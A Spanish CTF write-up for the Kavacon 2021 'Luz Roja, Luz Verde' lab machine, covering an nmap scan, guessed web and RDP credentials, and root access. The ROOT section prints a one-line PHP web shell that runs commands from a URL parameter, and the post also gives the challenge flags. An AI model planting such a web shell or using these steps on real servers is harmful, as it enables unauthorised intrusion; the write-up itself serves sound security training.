 ```yaml
---
title: "Kavacon 2021 – Luz Roja, Luz Verde"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/kavacon.png"
categories:
  - WriteUp
tags:
  - Kavacon
  - Maquina
---
```



## USER

En primer llugar hacemos un nmap a la ip y obtenemos lo siguiente

```
 Nmap 7.91 scan initiated Wed Oct 20 11:01:58 2021 as: nmap -p22,80,135,139,443,445,3389,5040,49664,49665,49666,49667,49669,49674 -sCV -O -oN NMAP 10.4.4.153

Nmap scan report for 10.4.4.153
Host is up (0.068s latency).

PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 1b:96:83:6a:eb:95:f2:4e:a6:5c:7b:03:9f:11:ff:69 (RSA)
|   256 49:b1:af:d5:ab:62:68:18:17:dd:91:7d:d1:cf:24:68 (ECDSA)
|_  256 a3:28:50:54:b9:fa:f5:58:a7:20:3d:ba:08:e2:71:23 (ED25519)
80/tcp    open  http          Apache httpd 2.4.51 ((Win64) OpenSSL/1.1.1l PHP/7.3.31)
|_http-server-header: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.3.31
| http-title: Login super seguro
|_Requested resource was http://10.4.4.153/dashboard/
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.51 ((Win64) OpenSSL/1.1.1l PHP/7.3.31)
|_http-server-header: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.3.31
| http-title: Login super seguro
|_Requested resource was https://10.4.4.153/dashboard/
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
5040/tcp  open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 (91%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (90%), Microsoft Windows XP SP3 (88%), Microsoft Windows Server 2008 SP1 (88%), Microsoft Windows 10 (87%), Microsoft Windows 7 or Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 or Windows 8.1 (87%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (87%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-20T14:04:40
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 20 11:06:56 2021 -- 1 IP address (1 host up) scanned in 298.22 seconds
```

Al entrar a la web nos damos cuenta que es sobre «Juego del Calamar»

![Luz Roja, Luz Verde 1](/assets/images/post/2021/luzrojaluzverde_1.png)

De acuerdo a la serio uno se movía con Luz verde, por lo que escribimos «verde», con esto entramos a una web con los datos de nuestro jugador #3389 y podemos descargar la ficha, el jugador 3389 hace alusión al puerto 3389 visto en en nmap además de un potencial usuario «seong»

![Luz Roja, Luz Verde 2](/assets/images/post/2021/luzrojaluzverde_2.png) | ![Luz Roja, Luz Verde 3](/assets/images/post/2021/luzrojaluzverde_3.png)

Al tarducir el fichero nos dice que la contraseña es un numero de 4 digitos. En la serie, la contraseña de ATM era el numero del jugador por lo que se deduce que la contraseña es 3389 (mismo que el pueto RDP), se prueba y podemos entrar a remote desktop con el comando y obtenemos acceso con rdp y la flag

rdesktop -f -u "seong" -p 3389 <IP>

***flag{jug4r3m0smu3vet3luzv3rd3!!}***

## ROOT

Para root, se debe subir una web shell en php en la carpeta C:\xampp\htdocs\dashboard\ desde

```
<?php
    echo shell_exec($_GET['cmd']);
?>
```

Con esta web tenemos acceso como administrador y podremos ver la flag revisando en nuestra web con la extensión ?cmd=type C:\Users\admin\Desktop\admin.txt.txt

***flag{c0m0estamosmentalmente?}***

![Racso](https://www.hackthebox.com/badge/image/159593)